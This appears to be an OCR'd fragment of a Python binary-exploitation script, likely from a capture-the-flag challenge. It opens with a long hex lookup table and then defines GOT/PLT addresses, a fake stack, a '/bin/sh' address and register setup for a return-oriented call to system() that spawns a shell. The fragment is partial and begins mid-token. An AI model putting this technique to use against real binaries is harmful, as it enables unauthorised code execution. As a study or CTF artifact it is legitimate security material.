 ```python
af919 : 0x9d000000400ff8,0x5fb4f3f3525af919 : 0x9e000000400ff8,0x5f35e7dbd35af919 : 0x9f000000400ff8,0x4089eddc6c5af919 : 0xa0000000400ff8,0x4008f9f4ed5af919 : 0xa1000000400ff8,0x418bc58d6e5af919 : 0xa2000000400ff8,0x410ad1a5ef5af919 : 0xa3000000400ff8,0x428dbd7e685af919 : 0xa4000000400ff8,0x420ca956e95af919 : 0xa5000000400ff8,0x438f952f6a5af919 : 0xa6000000400ff8,0x430e8107eb5af919 : 0xa7000000400ff8,0x44814c98645af919 : 0xa8000000400ff8,0x440058b0e55af919 : 0xa9000000400ff8,0x458364c9665af919 : 0xaa000000400ff8,0x450270e1e75af919 : 0xab000000400ff8,0x46851c3a605af919 : 0xac000000400ff8,0x46040812e15af919 : 0xad000000400ff8,0x4787346b625af919 : 0xae000000400ff8,0x47062043e35af919 : 0xaf000000400ff8,0x4898af547c5af919 : 0xb0000000400ff8,0x4819bb7cfd5af919 : 0xb1000000400ff8,0x499a87057e5af919 : 0xb2000000400ff8,0x491b932dff5af919 : 0xb3000000400ff8,0x4a9cfff6785af919 : 0xb4000000400ff8,0x4a1debdef95af919 : 0xb5000000400ff8,0x4b9ed7a77a5af919 : 0xb6000000400ff8,0x4b1fc38ffb5af919 : 0xb7000000400ff8,0x4c900e10745af919 : 0xb8000000400ff8,0x4c111a38f55af919 : 0xb9000000400ff8,0x4d922641765af919 : 0xba000000400ff8,0x4d133269f75af919 : 0xbb000000400ff8,0x4e945eb2705af919 : 0xbc000000400ff8,0x4e154a9af15af919 : 0xbd000000400ff8,0x4f9676e3725af919 : 0xbe000000400ff8,0x4f1762cbf35af919 : 0xbf000000400ff8,0x70ee62ec0c5af919 : 0xc0000000400ff8,0x706f76c48d5af919 : 0xc1000000400ff8,0x71ec4abd0e5af919 : 0xc2000000400ff8,0x716d5e958f5af919 : 0xc3000000400ff8,0x72ea324e085af919 : 0xc4000000400ff8,0x726b2666895af919 : 0xc5000000400ff8,0x73e81a1f0a5af919 : 0xc6000000400ff8,0x73690e378b5af919 : 0xc7000000400ff8,0x74e6c3a8045af919 : 0xc8000000400ff8,0x7467d780855af919 : 0xc9000000400ff8,0x75e4ebf9065af919 : 0xca000000400ff8,0x7565ffd1875af919 : 0xcb000000400ff8,0x76e2930a005af919 : 0xcc000000400ff8,0x76638722815af919 : 0xcd000000400ff8,0x77e0bb5b025af919 : 0xce000000400ff8,0x7761af73835af919 : 0xcf000000400ff8,0x78ff20641c5af919 : 0xd0000000400ff8,0x787e344c9d5af919 : 0xd1000000400ff8,0x79fd08351e5af919 : 0xd2000000400ff8,0x797c1c1d9f5af919 : 0xd3000000400ff8,0x7afb70c6185af919 : 0xd4000000400ff8,0x7a7a64ee995af919 : 0xd5000000400ff8,0x7bf958971a5af919 : 0xd6000000400ff8,0x7b784cbf9b5af919 : 0xd7000000400ff8,0x7cf78120145af919 : 0xd8000000400ff8,0x7c769508955af919 : 0xd9000000400ff8,0x7df5a971165af919 : 0xda000000400ff8,0x7d74bd59975af919 : 0xdb000000400ff8,0x7ef3d182105af919 : 0xdc000000400ff8,0x7e72c5aa915af919 : 0xdd000000400ff8,0x7ff1f9d3125af919 : 0xde000000400ff8,0x7f70edfb935af919 : 0xdf000000400ff8,0x60cce7fc2c5af919 : 0xe0000000400ff8,0x604df3d4ad5af919 : 0xe1000000400ff8,0x61cecfad2e5af919 : 0xe2000000400ff8,0x614fdb85af5af919 : 0xe3000000400ff8,0x62c8b75e285af919 : 0xe4000000400ff8,0x6249a376a95af919 : 0xe5000000400ff8,0x63ca9f0f2a5af919 : 0xe6000000400ff8,0x634b8b27ab5af919 : 0xe7000000400ff8,0x64c446b8245af919 : 0xe8000000400ff8,0x64455290a55af919 : 0xe9000000400ff8,0x65c66ee9265af919 : 0xea000000400ff8,0x65477ac1a75af919 : 0xeb000000400ff8,0x66c0161a205af919 : 0xec000000400ff8,0x66410232a15af919 : 0xed000000400ff8,0x67c23e4b225af919 : 0xee000000400ff8,0x67432a63a35af919 : 0xef000000400ff8,0x68dda5743c5af919 : 0xf0000000400ff8,0x685cb15cbd5af919 : 0xf1000000400ff8,0x69df8d253e5af919 : 0xf2000000400ff8,0x695e990dbf5af919 : 0xf3000000400ff8,0x6ad9f5d6385af919 : 0xf4000000400ff8,0x6a58e1feb95af919 : 0xf5000000400ff8,0x6bdbdd873a5af919 : 0xf6000000400ff8,0x6b5ac9afbb5af919 : 0xf7000000400ff8,0x6cd50430345af919 : 0xf8000000400ff8,0x6c541018b55af919 : 0xf9000000400ff8,0x6dd72c61365af919 : 0xfa000000400ff8,0x6d563849b75af919 : 0xfb000000400ff8,0x6ed15492305af919 : 0xfc000000400ff8,0x6e5040bab15af919 : 0xfd000000400ff8,0x6fd37cc3325af919 : 0xfe000000400ff8,0x6f5268ebb35af919 : 0xff000000400ff8,
}

start = 0x00400700
bss = 0x412050
fake_stack = 0x412800
name_addr = 0x412030
ptrs_addr = 0x412050
system_addr = libc.symbols['system'] 
binsh_addr = 0x412095
plt_read =  0x004006D0 
got_read = 0x0411FD8
got_puts = 0x00411FD0
got_printf = 0x0411FE0

server_offset = 0xe4000 + 0x4000844000

"""
w0 = w22
x1 = x23
x2 = x24
x3 = [X21+X19<<3] -> system

x19 = 0
x20 = 0
x21 = binsh_addr + 8
```